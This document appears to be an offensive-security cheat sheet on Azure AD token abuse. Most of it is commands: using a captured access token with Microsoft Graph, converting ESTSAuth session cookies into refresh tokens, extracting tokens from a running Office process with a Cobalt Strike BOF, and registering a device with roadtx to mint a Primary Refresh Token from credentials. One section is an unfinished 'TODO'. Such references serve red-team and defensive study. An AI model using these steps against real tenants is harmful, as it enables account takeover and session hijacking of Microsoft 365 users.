 # Azure AD Tokens


## Access Token

Decode access tokens: [jwt.ms](https://jwt.ms/)

* Use token
    ```ps1
    # use the jwt
    $token = "eyJ0eXAiO..."
    $secure = $token | ConvertTo-SecureString -AsPlainText -Force
    Connect-MgGraph -AccessToken $secure

    # whoami
    Get-MgContext
    Disconnect-MgGraph
    ```


## Refresh Token

* Requesting a token using credentials
    ```ps1
    TODO
    ```
* 


### Get a Refresh Token from ESTSAuth Cookie

`ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`.

```ps1
TokenTacticsV2> Get-AzureTokenFromESTSCookie -ESTSAuthCookie "0.AS8"
TokenTacticsV2> Get-AzureTokenFromESTSCookie -Client MSTeams -ESTSAuthCookie "0.AbcAp.."
```


### Get a Refresh Token from Office process

* [trustedsec/CS-Remote-OPs-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF)
```ps1
load bofloader
execute_bof /opt/CS-Remote-OPs-BOF/Remote/office_tokens/office_tokens.x64.o --format-string i  7324
```


## Primary Refresh Token

* Use PRT token
    ```ps1
    roadtx browserprtauth -prt roadtx.prt -url http://www.office.com
    ```


### Extract PRT on Device with TPM

* No method known to date.


### Generate a PRT by registering a device

```ps1
roadtx interactiveauth -u user.lastname@domain.local -p password123 -r devicereg
roadtx device -n devicename
roadtx prt -u user.lastname@domain.local -p password123 –-key-pem devicename.key –-cert-pem devicename.pem
roadtx prtenrich –prt roadtx.prt
roadtx prt -u user.lastname@domain.local -p password123 –-key-pem devicename.key –-cert-pem devicename.pem -r 0.AVAApQL<snip>
```


## References

* [Hacking Your Cloud: Tokens Edition 2.0 - Edwin David - April 13, 2023](https://trustedsec.com/blog/hacking-your-cloud-tokens-edition-2-0)
* [Microsoft 365 Developer Program](https://developer.microsoft.com/en-us/microsoft-365/dev-program)